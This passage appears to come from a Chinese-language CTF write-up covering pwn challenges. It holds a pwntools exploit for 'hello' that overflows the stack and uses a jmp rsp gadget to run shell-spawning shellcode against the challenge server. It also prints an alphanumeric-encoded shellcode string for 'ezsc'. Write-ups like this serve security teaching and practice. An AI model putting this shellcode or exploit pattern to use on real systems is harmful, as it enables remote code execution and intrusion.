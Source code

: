 ```python
print(hex(m))
print(len(hex(m)))
```



## PWN

### hello | Author: cor1e

又有堆栈可执行，又有输入长度限制不够普通rop链长度，典型题，一句payload就行。

（1.输入位置是在ebp-48处，所以填充56位到返回地址处。2.执行完jmp rsp后栈顶距离shellcode储存处为64字节，故sub rsp,64。3.asm汇编时要先注明64位还是32位（即context.arch=''））

exp:

```python
#!usr/bin/python3

from pwn import*

p=remote('pwn.challenge.mini.lctf.online',10050)

context.log_level='debug'
context.arch='amd64'

p.recvuntil('?')
jmp_rsp=0x4006ca #gadget


payload1=asm(shellcraft.sh())+b'A'*(56-len(asm(shellcraft.sh())))+p64(jmp_rsp)+asm('sub rsp,64;jmp rsp')
p.sendline(payload1)

p.interactive()

```



### ezsc | Author: eqqie

题面很简单，输入纯字母数字的shellcode就能getshell，github上已经有造好的轮子，搜索alpha-shellcode就可以查到很多。这些脚本可以把pwntools生成的shellcode转换为alpha-shellcode。

下面是比赛时我用的:

```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```



### noleak | Author: eqqie
